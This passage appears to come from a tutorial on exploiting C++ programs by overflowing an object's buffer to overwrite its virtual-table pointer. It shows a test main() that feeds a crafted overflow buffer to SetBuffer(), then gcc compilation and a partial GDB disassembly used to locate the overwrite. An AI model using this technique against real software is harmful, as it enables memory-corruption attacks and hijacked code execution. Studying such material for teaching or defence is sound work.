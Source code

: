 void main() {
 BaseClass *Object[2];

 Object[0]=new MyClass1;
 Object[1]=new MyClass2; 
 Object[0]->SetBuffer(BufferOverflow((unsigned long)&(*Object[0]),4,32));  
 Object[1]->SetBuffer("string2");
 Object[0]->PrintBuffer();
 Object[1]->PrintBuffer();
}


We compile, and we launch GDB:

rix@pentium:~/BO > gcc -o bo3 bo3.cpp
rix@pentium:~/BO > gdb bo3
...
(gdb) disass main
Dump of assembler code for function main:
0x8048670 <main>:       pushl  %ebp
0x8048671 <main+1>:     movl   %esp,%ebp
0x8048673 <main+3>:     subl   $0x8,%esp
0x8048676 <main+6>:     pushl  %edi
0x8048677 <main+7>:     pushl  %esi
0x8048678 <main+8>:     pushl  %ebx
0x8048679 <main+9>:     pushl  $0x24
0x804867b <main+11>:    call   0x80488c0 <___builtin_new>
0x8048680 <main+16>:    addl   $0x4,%esp
0x8048683 <main+19>:    movl   %eax,%eax
0x8048685 <main+21>:    pushl  %eax
0x8048686 <main+22>:    call   0x8048760 <__8MyClass1>
0x804868b <main+27>:    addl   $0x4,%esp
0x804868e <main+30>:    movl   %eax,%eax
0x8048690 <main+32>:    movl   %eax,0xfffffff8(%ebp)
0x8048693 <main+35>:    pushl  $0x24
0x8048695 <main+37>:    call   0x80488c0 <___builtin_new>
0x804869a <main+42>:    addl   $0x4,%esp
0x804869d <main+45>:    movl   %eax,%eax
0x804869f <main+47>:    pushl  %eax
0x80486a0 <main+48>:    call   0x8048730 <__8MyClass2>
0x80486a5 <main+53>:    addl   $0x4,%esp
0x80486a8 <main+56>:    movl   %eax,%eax
---Type <return> to continue, or q <return> to quit---
0x80486aa <main+58>:    movl   %eax,0xfffffffc(%ebp)
0x80486ad <main+61>:    pushl  $0x20
0x80486af <main+63>:    pushl  $0x4
0x80486b1 <main+65>:    movl   0xfffffff8(%ebp),%eax
0x80486b4 <main+68>:    pushl  %eax
0x80486b5 <main+69>:    call   0x80485b0 <BufferOverflow__FUlii>
0x80486ba <main+74>:    addl   $0xc,%esp
0x80486bd <main+77>:    movl   %eax,%eax
0x80486bf <main+79>:    pushl  %eax
0x80486c0 <main+80>:    movl   0xfffffff8(%ebp),%eax
0x80486c3 <main+83>:    pushl  %eax
0x80486c4 <main+84>:    call   0x8048790 <SetBuffer__9BaseClassPc>
0x80486c9 <main+89>:    addl   $0x8,%esp
0x80486cc <main+92>:    pushl  $0x80489f6
0x80486d1 <main+97>:    movl   0xfffffffc(%ebp),%eax
0x80486d4 <main+100>:   pushl  %eax
0x80486d5 <main+101>:   call   0x8048790 <SetBuffer__9BaseClassPc>
0x80486da <main+106>:   addl   $0x8,%esp
0x80486dd <main+109>:   movl   0xfffffff8(%ebp),%eax
0x80486e0 <main+112>:   movl   0x20(%eax),%ebx
0x80486e3 <main+115>:   addl   $0x8,%ebx
0x80486e6 <main+118>:   movswl (%ebx),%eax
